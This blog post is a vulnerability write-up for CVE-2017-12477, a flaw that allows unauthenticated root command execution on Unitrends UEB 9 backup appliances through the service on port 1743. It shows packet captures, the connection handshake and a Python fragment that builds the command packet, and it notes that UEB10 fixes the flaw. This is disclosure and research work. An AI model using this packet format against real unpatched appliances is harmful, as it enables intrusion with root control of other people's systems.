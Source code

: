 ```yaml
---
layout: post
title: "CVE-2017-12477 - Unitrends root RCE via bpdserverd"
date: 2018-04-20 00:00:01
categories: exploits
---
```


CVE-2017-12477 is a vulnerability affecting Unitrends UEB 9 storage appliances. This vulnerability allows for unauthed root RCE of commands sent to a certain external port. (In practice, it's slightly more complicated than that). It even returns stdout ouput from the commands back to the attacker! It's an interesting vulnerability, and the exploit simply amounts to an alternative client to a service used by the web application.

After spending some time with the UEB 9 web application, it became clear that commands are frequently issued from the web app UI (which is running as 'apache'), but run as 'root' on the applicance.

Running tcpdump on loopback provided a promising lead. First, we get tcpdump running on loopback on the application host, dumping tcp traffic to a pcap;
```
tcpdump tcp -i lo -w /tmp/cap1.pcap
```
Next, we issue the following request to the web UI, with the expectation that it will probably result in a high priv command being issued:
```
POST /api/hosts/?sid=1 HTTP/1.1
Host: 10.20.1.201
AuthToken: djA6ZjgzYWUwOTctYzMxOS00NzAyLTg5YmItZDUwYjlmYjk3ZjdhOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA==
Content-Type: application/json
Content-Length: 184

{"name":"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz","ip":"1.2.3.5","long_name":"zzzzzzzzzzzzzzzzzzzzzzzzzzzzz.zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz","aliases_str":"foo"}
```
Finally, we end the tcp capture and search through the resulting pcap for a bunch of 'z's. Sure enough, we find the packet we're looking for:

{% highlight shell  %}
127.0.0.1.33165 > 127.0.0.1.1743: Flags [P.], length 196
    0x0000:  4500 00f8 4b3b 4000 4006 f0c2 7f00 0001  E...K;@.@.......
    0x0010:  7f00 0001 818d 06cf 88c3 7cbb 5316 ad48  ..........|.S..H
    0x0020:  8018 0100 feec 0000 0101 080a 252b 378c  ............%+7.
    0x0030:  252b 378c a552 002d 0000 00c4 0000 0001  %+7..R.-........
    0x0040:  0000 004c 0000 00b0 636d 635f 6e65 7477  ...L....cmc_netw
    0x0050:  6f72 6b20 686f 7374 2073 6176 6520 2731  ork.host.save.'1
    0x0060:  2e32 2e33 2e34 2720 2731 2e32 2e33 2e34  .2.3.4'.'1.2.3.4
    0x0070:  2720 277a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  '.'zzzzzzzzzzzzz
    0x0080:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x0090:  2e7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  .zzzzzzzzzzzzzzz
    0x00a0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00b0:  7a27 2027 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  z'.'zzzzzzzzzzzz
    0x00c0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00d0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00e0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00f0:  2720 2766 6f6f 2700                      '.'foo'.
{% endhighlight  %}

This looks pretty good - Here's the command we expected to be issued by the web app, being sent to a listener on 1743. Even better, it looks like this port is externally accessable:

{% highlight shell  %}
[root@VMware-UB ~]# netstat -tulpn
...
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address    Foreign Address     State       PID/Program name 
tcp        0      0 :::1743          :::*                LISTEN      2018/xinetd         
...
udp        0      0 :::1743          :::*                            2018/xinetd   
...
{% endhighlight %}

We're not done yet, though, since simply sending this packet to the listener on 1743 does not result in command execution. A look at the larger tcp stream containing our command packet reveals a packet sent from the listener on 1743, right after the webapp connected initially. A complete(ish) command sequence looks like this (The example below was selected because the command returns some output):

{% highlight shell  %}
127.0.0.1.33167 > 127.0.0.1.1743: Flags [S], length 0

127.0.0.1.1743 > 127.0.0.1.33167: Flags [P.], length 44
    0x0000:  4500 0060 e086 4000 4006 5c0f 7f00 0001  E..`..@.@.\.....
    0x0010:  7f00 0001 06cf 818f b82a d824 786d 46a1  .........*.$xmF.
    0x0020:  8018 0100 fe54 0000 0101 080a 252b 38ac  .....T......%+8.
    0x0030:  252b 38a2 a541 0001 0000 002c 0000 0002  %+8..A.....,....
    0x0040:  0000 004c 0000 0008 436f 6e6e 6563 7400  ...L....Connect.
    0x0050:  0000 0078 0000 0008 3333 3035 3700 0000  ...x....33057...

127.0.0.1.58700 > 127.0.0.1.33057: Flags [S], length 0

127.0.0.1.33167 > 127.0.0.1.1743: Flags [P.], length 48
    0x0000:  4500 0064 7e05 4000 4006 be8c 7f00 0001  E..d~.@.@.......
    0x0010:  7f00 0001 818f 06cf 786d 46a1 b82a d850  ........xmF..*.P
    0x0020:  8018 0100 fe58 0000 0101 080a 252b 38ac  .....X......%+8.
    0x0030:  252b 38ac a552 002d 0000 0030 0000 0001  %+8..R.-...0....
    0x0040:  0000 004c 0000 001c 636d 635f 6e65 7477  ...L....cmc_netw
    0x0050:  6f72 6b20 686f 7374 6e61 6d65 2069 6e66  ork.hostname.inf
    0x0060:  6f00 0000 

127.0.0.1.1743 > 127.0.0.1.33167: Flags [P.], length 28
    0x0000:  4500 0050 e088 4000 4006 5c1d 7f00 0001  E..P..@.@.\.....
    0x0010:  7f00 0001 06cf 818f b82a d850 786d 46d1  .........*.PxmF.
    0x0020:  8018 0100 fe44 0000 0101 080a 252b 38b5  .....D......%+8.
    0x0030:  252b 38ac a549 0009 0000 001c 0000 0001  %+8..I..........
    0x0040:  0000 0062 0000 0008 3732 3030 0000 0000  ...b....7200....

127.0.0.1.33057 > 127.0.0.1.58700: Flags [P.], length 15
    0x0000:  4500 0043 9cde 4000 4006 9fd4 7f00 0001  E..C..@.@.......
    0x0010:  7f00 0001 8121 e54c 1ef9 a472 5865 1667  .....!.L...rXe.g
    0x0020:  8018 0100 fe37 0000 0101 080a 252b 38db  .....7......%+8.
    0x0030:  252b 38ac 6e61 6d65 2056 4d77 6172 652d  %+8.name.VMware-
    0x0040:  5542 0a                                  UB.
...
{% endhighlight %}

To summarize;

1. Client connects to 1743
2. Server specifies a random, high numbered port
3. Client connects to that random, high numbered port
4. Client sends a command to 1743
5. Server executes command and returns output via the random port

The packet capture shown above is somewhat abridged - both client and server continue to exchange a few packets after the final packet in the sequence shown above, but we don't really care since our command has already been executed. Another thing to note is that while there will be some added complexity involved in setting up another connection, our exploit still only needs to prepare and send a single packet to port 1743.

Our only remaining task, then, is to analyze the command packet and determine how to construct our own data section, which will be accepted by the service on 1743. My informal strategy for doing this is to first get the ui to issue an identical commands multiple times, and see if anything changes from packet to packet, indicating some kind of nonce or count. In this example there's nothing like that. Next, I get the ui to send multiple commands of different lengths, and again check to see what changes from packet to packet; these would usually be things like checksums and length values; This example contains a few fields of this type.

The final packet generator is probably best underestood by simply looking at a piece of the final exploit code:

```python 
cmd_len = chr(len(cmd) + 3)
packet_len = chr(len(cmd) + 23)

packet = '\xa5\x52\x00\x2d'
packet += '\x00' * 3
packet += packet_len
packet += '\x00' * 3
packet += '\x01'
packet += '\x00' * 3
packet += '\x4c'
packet += '\x00' * 3
packet += cmd_len
packet += cmd
packet += '\x00' * 3
```

At this point, we have everything we need to put together the final exploit, available here & here. It's extremely reliable, since we're just using a service on the application server as designed (more or less...), as opposed to causing a crash by way of a memory corruption.

This root RCE is fixed in UEB10. You should update.

